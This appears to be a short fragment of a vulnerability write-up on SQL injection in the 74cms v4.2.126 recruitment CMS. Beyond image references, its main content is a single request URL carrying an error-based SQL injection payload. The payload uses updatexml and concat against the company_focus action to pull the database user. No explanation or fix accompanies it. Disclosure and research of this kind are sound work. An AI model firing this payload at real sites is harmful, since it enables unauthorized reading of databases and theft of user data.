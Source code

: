 ![](./resource/74cmsv4.2.126-前台四处sql注入/media/rId39.png)

    http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a
